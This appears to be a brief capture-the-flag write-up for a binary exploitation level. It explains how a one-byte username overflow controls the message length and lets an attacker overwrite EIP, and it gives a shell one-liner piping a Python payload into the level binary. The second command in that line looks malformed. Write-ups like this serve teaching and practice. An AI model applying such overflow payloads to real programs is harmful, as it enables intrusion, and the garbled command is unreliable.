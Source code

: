 # Level 09

We can overflow the username by one byte, and luckly this byte will be used as the length of the message, which is set to 140 by default. But if we make it bigger, we can overflow the EIP.

```shell
(python -c 'print 10 * "Peer" + "\xff" '; python -c 'print ' cat)| ./level09